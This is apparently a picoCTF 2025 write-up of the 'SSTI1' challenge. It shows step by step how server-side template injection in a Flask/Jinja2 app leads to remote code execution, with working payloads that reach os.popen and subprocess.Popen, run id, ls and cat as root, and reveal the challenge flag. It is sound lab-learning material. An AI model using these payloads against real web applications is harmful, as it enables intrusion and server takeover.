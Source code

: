 <h1> SSTI1 </h1>

From: https://play.picoctf.org/practice/challenge/492

Author: Venax

Description: I made a cool website where you can announce whatever you want! Try it out!

Tags: Easy, Web Exploitation, PicoCTF 2025, browser_webshell_solvable
---

Beginning of challenge:

Immediately after launching the challenge instance you are directed to a website with basic html and a prominent form to announce to the site.
![image](https://github.com/user-attachments/assets/d9dd00a3-09f9-4cb6-9dd2-df17e5687f33)

After entering a string to the form, the website directs you to an announce page with your input text displayed.
![image](https://github.com/user-attachments/assets/b52c3e2b-6229-4f52-bb75-4f2cce7b377e)

<details>
<summary> CONTINUE - SPOILERS </summary>
Directly changing your URL to this announce page doesn't yield results:
  
![image](https://github.com/user-attachments/assets/e3fa69cf-67f8-43e9-a89c-89bcbc10ebdc)

After some experimentation, I wasn't able to deduce whether this something SQL exploitable, and decided to take the hint from the PicoCTF instance. This revealed the exploit for this CTF is known as server-side-template injection.

The portswigger article: https://portswigger.net/web-security/server-side-template-injection describes this explot as __"when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side."__

After futher experimentation, and now understanding that string formatting is often performed using curly brackets {}, sending the server the a set of nested curly brackets {{}} resulted in an internal server error, error 500.

![image](https://github.com/user-attachments/assets/2b0066c4-0e89-49c9-b0a3-d1c87fede2b3)

When placing any plaintext within these braces, the error dissapears and a completely blank HTML page is returned when the form is executed.

Based on the error returned, i thought it might be possible that this application is a Flask application, see: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application based searching the error text in Google.

To confirm server side execution ability, we sent {{7*7}} which resulted in the page showing me the numbers 49. This implies that anything we place within the double curly braces can be evaluated. 

Following along with the portswigger article, and the indentify section, we determine that this is framework is likely using Jinja2 because "The payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2."
![image](https://github.com/user-attachments/assets/1a2aee31-7607-4b5e-916c-16786617ba99)

<h2> The exploit </h2>
Now that we know it is Jinja2, We can follow along with https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ to learn about specifics regarding exploitation of this framework. Similarly, the Jinja docs were useful for referencing what the OnSecurity aricle was discussing: https://jinja.palletsprojects.com/en/stable/api/#jinja2.Environment

This exploit relies on the fact the formatted strings can allow for the interpretation and execution of code on the server. This is possible when developers leave user-definable strings in their template files which are unsantized and without guardrails. 

See below a snippet of the code, taken after completing this challenge.

<details> 
<summary> <h2> Explanation of exploit </h2> </summary>
  
![image](https://github.com/user-attachments/assets/f293ce71-b9b9-4af9-aa7d-83f120bc171e)

The line... `return render_template_string(f"""
    <!doctype html>
    <h1 style="font-size:100px;" align="center">
        {request.form.get("content", "")}
    </h1>
""")`

...Is vulnerable since the {request.form.get("content", "")} is unsantized and anything sent to it will can be evaluated on the server.

</details>

<h2> Experimentation </h2>

Sending: __`{{global_name.__class__.__mro__}}`__

- Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

Sending: __`{{global_name.__class__.__base__}}`__

- Returns: <class 'object'>

Sending: __`{{g.__class__.__mro__}}`__

- Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Sending: __`{{g.__class__.mro()}}`__

- Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: __`{{g['__class__']['mro']()}}`__

- Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: `__{{g['__class__']['__mro__']}}`__

- Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Furthermore from the OnSecurity article, I played around with some of the payloads discussed there...

Sending: __`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`__

- Returns: uid=0(root) gid=0(root) groups=0(root) 

From the __developing an exploit__ section in https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#payload-development-from-0...
![image](https://github.com/user-attachments/assets/b23ae18f-6e68-48c6-8b1a-6632659c9392)

Sending: __`{{get_flashed_messages}}`__

- Returns: <function get_flashed_messages at 0x75e143dc5550>

Sending: __`{{get_flashed_messages.__class__}}`__

- Returns: <class 'function'>

Sending: __`{{get_flashed_messages.__class__.__mro__}}`__
- Returns: (<class 'function'>, <class 'object'>)

Sending: __`{{get_flashed_messages.__class__.__mro__[1]}}`__
- Returns: <class 'object'>

Sending: __`{{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}`__

- Returns: All the subclasses for the get_flashed_messages object subclass. It is very long so I haven't included it as plaintext... see:
![image](https://github.com/user-attachments/assets/b9684b62-ef29-4c30-b91b-4f48e44aa67a)

Sending: __`{{g}}`__

- Returns: `<flask.g of 'app'>`

Sending: __`{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]}}`__

- Returns: `<class 'mappingproxy'>`

Sending: __`{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd')}}`__

- Returns: `/etc/passwd`

Sending: __`{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}`__

- Returns: __Internal server error__

<h2> Applying this to the our target </h2>
After a bit of further self experimentation, I took the 'app' name of the application and started parsing some similar dunder methods to it to see what was getting returned, maybe we can find our winfunction this way.

Sending: __`{{app.__class__}}`__

- Returns: `<class 'jinja2.runtime.Undefined'>`

Sending: __`{{app.__class__.__mro__}}`__

- Returns: `(<class 'jinja2.runtime.Undefined'>, <class 'object'>)`

When sending: __`{{app.__class__.__mro__[1].__subclasses__()}}`__, I received all the subclasses again. However, this time I put it into my IDE and replaced all commas with newlines to better visualise it.
![image](https://github.com/user-attachments/assets/d53d70c7-0f86-4da5-a79a-df0aafcc8655)

After querying ChatGPT on where I should begin my investigations regarding vulnerable subclasses, I decided to hone in on <class 'subprocess.Popen'> and returned this by indexing the above function with [356]. 
- `{{app.__class__.__mro__[1].__subclasses__()[356]}}`

Popen is expliotable because __"The popen() function shall execute the command specified by the string command. It shall create a pipe between the calling program and the executed command, and shall return a pointer to a stream that can be used to either read from or write to the pipe."__
from: https://pubs.opengroup.org/onlinepubs/009696799/functions/popen.html
![image](https://github.com/user-attachments/assets/d06d5171-459f-4511-9f12-c1688e3d9264)

We can now execute Popen through: __`{{app.__class__.__mro__[1].__subclasses__()[356]}}`__

For example, if we want to list the current directory, we can pass the linux commands ls to the args via a list:

Sending: `{{app.__class__.__mro__[1].__subclasses__()[356](['ls', '-la], stdout=-1).communicate()[0].decode()}}`

Returns:

<details>
<summary> ls output </summary>
total 12

drwxr-xr-x 1 root root    25 Apr 13 03:37 .

drwxr-xr-x 1 root root    23 Apr 13 03:37 ..

drwxr-xr-x 2 root root    32 Apr 13 03:37 __pycache__

-rwxr-xr-x 1 root root  1241 Mar  6 03:27 app.py

-rw-r--r-- 1 root root    58 Mar  6 19:43 flag

-rwxr-xr-x 1 root root   268 Mar  6 03:27 requirements.txt
</details>

Hooray! Success

It seems like we found the flag file. However, out of curiosity lets check out what the requirements.txt file is first.

<details>
<summary> requirements.txt output </summary>
ÿþblinker==1.8.2

click==8.1.7

colorama==0.4.6

Flask==3.0.3

itsdangerous==2.2.0

Jinja2==3.1.4

MarkupSafe==2.1.5

Werkzeug==3.0.3
</details>

Seems like just details for the application to run, maybe a docker thing?



<h3>Win</h3>
Lastly, lets using the linux read file command cat to open the flag file:


Sending: __`{{app.__class__.__mro__[1].__subclasses__()[356](['cat', 'flag'], stdout=-1).communicate()[0].decode()}}`__

- Returns __`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}`__

---------------------------------------------------------------------------------------------------------------------

Applications used during CTF:
-Kali Linux (OS)
-Mozilla Firefox (Web Browser)
-Visual Studio Code

Core sources of information:
Portswigger: https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack
  - Overview of Server Side Template Injection

DigitalOcean: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application
  - Understanding some error handling characteristics of Flask applications

Jinja: https://jinja.palletsprojects.com/en/stable/templates/
  - Understanding templating documentation and implementation

PythonDocs: https://docs.python.org/3/library/subprocess.html#subprocess.Popen
  - Understanding Popen

ChatGPT: https://chatgpt.com/
  - Getting an overview of common vulnerable subclasses and understanding the syntax of parsing lists to the Popen function.

</details>


